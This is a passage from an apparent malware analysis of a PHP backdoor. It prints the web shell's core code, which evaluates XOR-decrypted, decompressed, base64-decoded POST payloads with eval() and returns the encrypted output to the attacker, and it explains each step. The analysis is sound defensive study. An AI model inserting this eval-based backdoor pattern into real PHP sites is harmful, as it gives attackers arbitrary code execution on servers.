 ```php
@ob_start();
@eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
$o = @ob_get_contents();
@ob_end_clean();
```

- **`ob_start()`**: This starts output buffering to capture anything that gets printed during the execution of the payload.
    
- **`eval()`**: This evaluates the decoded and decompressed payload, which is likely a malicious command or script sent by the attacker.
    
    - **Decryption process**:
        1. `base64_decode($m[1])`: The payload is first decoded from Base64.
        2. `x()`: The decoded string is passed through the `x()` function, where it's XOR decrypted using the key `$k`.
        3. `gzuncompress()`: The decrypted string is then decompressed (since it was likely compressed using `gzcompress()`).
    
- **Result**: The final result of the decryption is executed via `eval()`, allowing the attacker to run arbitrary PHP code on the server.

5. Returning the Response

```php
$r = @base64_encode(@x(@gzcompress($o), $k));
print("$p$kh$r$kf");
```

- **Output**:
    - The output generated from the executed payload (stored in `$o`) is:
        1. Compressed using `gzcompress()`.
        2. XOR encrypted using the key `$k` via `x()`.
        3. Base64 encoded.
    
- **Response Format**:
    - The server responds with the string `$p$kh<encrypted_result>$kf`, where:
        - `$p`: Prefix string.
        - `$kh`: Start marker.
        - `<encrypted_result>`: The Base64 encoded, encrypted result of the executed command.
        - `$kf`: End marker.

**Conclusion**

This PHP backdoor listens for specially crafted HTTP POST requests containing an encoded and encrypted payload. The attacker sends a command wrapped in base64 and XOR encryption, which is then:

1. Decoded.
2. Decrypted.
3. Decompressed.
4. Evaluated and executed on the server.

The result of the command execution is then:

1. Compressed.
2. XOR encrypted.
3. Base64 encoded.
4. Sent back to the attacker in the response.
